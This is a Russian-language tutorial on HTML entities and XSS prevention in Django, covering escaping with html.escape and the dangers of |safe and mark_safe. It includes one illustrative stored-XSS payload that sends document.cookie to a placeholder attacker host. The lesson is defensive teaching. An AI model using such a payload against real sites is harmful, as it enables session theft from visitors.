

## Теория
Для браузера символ `<` — начало тега, а `&` — начало **мнемоники**: специальной записи символа. Чтобы показать на странице сам символ `<`, его пишут как `&lt;`, амперсанд — как `&amp;`, кавычку в атрибуте — как `&quot;`. Такая замена называется **экранированием**. Мнемоники нужны и для невидимых символов. Самая полезная — `&nbsp;`, неразрывный пробел: число и «₽» в цене `2490&nbsp;₽` никогда не разъедутся на разные строки.

Экранирование — вопрос не только красоты, но и безопасности. Магазин показывает отзывы, имена и адреса, которые ввели покупатели. Если вставить такой текст в HTML как есть, покупатель может написать в отзыве `<script>…</script>`. Тогда его код выполнится в браузере **каждого**, кто откроет страницу, и украдёт их сессии. Это **XSS** (межсайтовый скриптинг). Защита одна: любой текст от пользователя экранируется перед вставкой в HTML. Django делает это в шаблонах автоматически, но важно понимать зачем, чтобы случайно это не отключить.

## Наглядно
**Рисунок 1.** Один и тот же отзыв, вставленный как есть и после экранирования.



**Таблица 1.** Символы, которые экранируют, и полезные мнемоники.

| Символ | Мнемоника | Когда обязательно |
|---|---|---|
| `<` | `&lt;` | всегда в тексте — иначе начнётся тег |
| `>` | `&gt;` | для единообразия вместе с `<` |
| `&` | `&amp;` | всегда — иначе начнётся мнемоника |
| `"` | `&quot;` | внутри значения атрибута в двойных кавычках |
| `'` | `&#x27;` | внутри значения атрибута в одинарных кавычках |
| неразрывный пробел | `&nbsp;` | между числом и единицей: `2490&nbsp;₽` |
| `©`, `—` | `&copy;`, `&mdash;` | необязательно: в UTF-8 их можно писать как есть |

## На практике
Задача: показать отзывы покупателей так, чтобы любой текст в них оставался текстом.

### Шаг 1. Пишем спецсимвол руками
В описании товара нужно показать тег. Пишем его мнемониками:
```html
<p>Тег &lt;b&gt; делает текст жирным.</p>
```
На странице появится «Тег <b> делает текст жирным.». Если написать `<b>` как есть, браузер примет его за настоящий тег, и остаток абзаца станет жирным.

### Шаг 2. Получаем опасный отзыв
Покупатель оставил отзыв, и сервер подставил его в страницу без обработки:
```html
<article class="review">
  Отличный чайник! <script>fetch("https://evil.example/?c=" + document.cookie)</script>
</article>
```
Каждый, кто откроет карточку товара, выполнит этот скрипт. Скрипт отправит cookies посетителя на чужой сервер. Против этой атаки и нужен `HttpOnly` из темы «Cookies и сессии». Но скрипт может сделать и другое: оформить заказ или подменить реквизиты оплаты.

### Шаг 3. Экранируем текст перед вставкой
Экранирование заменяет опасные символы мнемониками. В Python для этого есть `html.escape`:
```python
from html import escape

review = 'Отличный! <script>alert("XSS")</script> & точка'
print(escape(review))
```
Результат:
```
Отличный! &lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt; &amp; точка
```
Браузер покажет отзыв буква в букву, со словом `<script>`, но ничего не выполнит: тегов в тексте больше нет.

### Шаг 4. Доверяем Django, но не отключаем защиту
В шаблонах Django `{{ review.text }}` экранируется **автоматически**. Опасны способы это отключить: фильтр `|safe`, тег ``, функция `mark_safe()`. Их применяют только к HTML, который написал сам разработчик. Текст от пользователей через них не пропускают никогда.

## Частые ошибки
- **`|safe` на данных пользователя.** «Чтобы работали переносы строк в отзыве» — и вместе с переносами работают скрипты. Переносы делает фильтр `linebreaks`: он сначала экранирует, потом расставляет `<br>`.
- **Двойное экранирование.** Текст экранировали при сохранении в базу, а шаблон экранирует ещё раз — на странице появляется `&amp;lt;`. Экранируют один раз — при выводе в HTML.
- **Экранирование «вручную» заменой `<`.** Самодельные фильтры забывают про кавычки в атрибутах, `&` и другие случаи. Используйте готовое: автоэкранирование шаблонов, `html.escape`.
- **Обычный пробел в цене.** `2490 ₽` в узкой карточке переносится как «2490» и «₽» на новой строке. Между числом и единицей — `&nbsp;`.

## Итог
**Спецсимволы**
- `<` → `&lt;`, `&` → `&amp;`, `"` в атрибуте → `&quot;`.
- `&nbsp;` — неразрывный пробел: «2490&nbsp;₽» не разрывается.

**XSS**
- Текст пользователя, вставленный как HTML, может содержать `<script>`, и он выполнится у всех посетителей.
- Защита — экранировать любой пользовательский текст при выводе в HTML.

**Django**
- `{{ переменная }}` экранируется автоматически.
- `|safe`, ``, `mark_safe()` отключают защиту — только для своего HTML, никогда для данных пользователя.

## Вопросы на собеседовании
<details><summary>Что такое XSS?</summary>

Cross-site scripting — внедрение чужого JavaScript в страницу сайта. Злоумышленник сохраняет на сайте текст со скриптом (в отзыве, имени) или подсовывает его в параметр URL. Если сайт выводит этот текст без экранирования, скрипт выполняется в браузерах посетителей с их cookies и правами: крадёт сессию, действует от их имени.
</details>

<details><summary>Как защититься от XSS?</summary>

Экранировать все данные из недоверенных источников при выводе в HTML (в Django это делает автоэкранирование шаблонов). Не отключать его на пользовательских данных. Дополнительно — ставить cookies сессии с `HttpOnly` и задавать заголовок Content-Security-Policy, ограничивающий, откуда можно грузить скрипты.
</details>

<details><summary>Когда в Django можно использовать `|safe`?</summary>

Только для HTML, полностью контролируемого разработчиком: заранее подготовленный фрагмент, результат собственного шаблона, текст из админки после санитайзера. Пользовательский ввод через `|safe` — прямой путь к XSS.
</details>

<details><summary>Почему экранируют при выводе, а не при сохранении?</summary>

Один и тот же текст выводится в разные места: HTML, JSON, письмо, CSV, и экранирование у каждого своё. Если экранировать при сохранении, в базе окажутся `&lt;` вместо `<`, а в HTML-шаблоне получится двойное экранирование. Поэтому храним исходный текст, а экранируем под конкретный формат при выводе.
</details>
